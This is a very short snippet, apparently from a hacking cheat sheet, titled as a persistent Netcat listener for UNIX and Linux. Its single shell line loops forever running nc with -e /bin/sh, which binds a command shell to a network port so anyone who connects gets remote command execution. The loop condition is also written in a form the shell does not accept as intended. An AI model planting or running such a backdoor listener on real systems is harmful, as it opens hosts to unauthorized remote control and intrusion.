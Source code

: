 ### Netcat listener persistent on UNIX and Linux by using a while loop
```
while [1]; do echo 'Started'; nc -l -p [port] -e /bin/sh; done
```
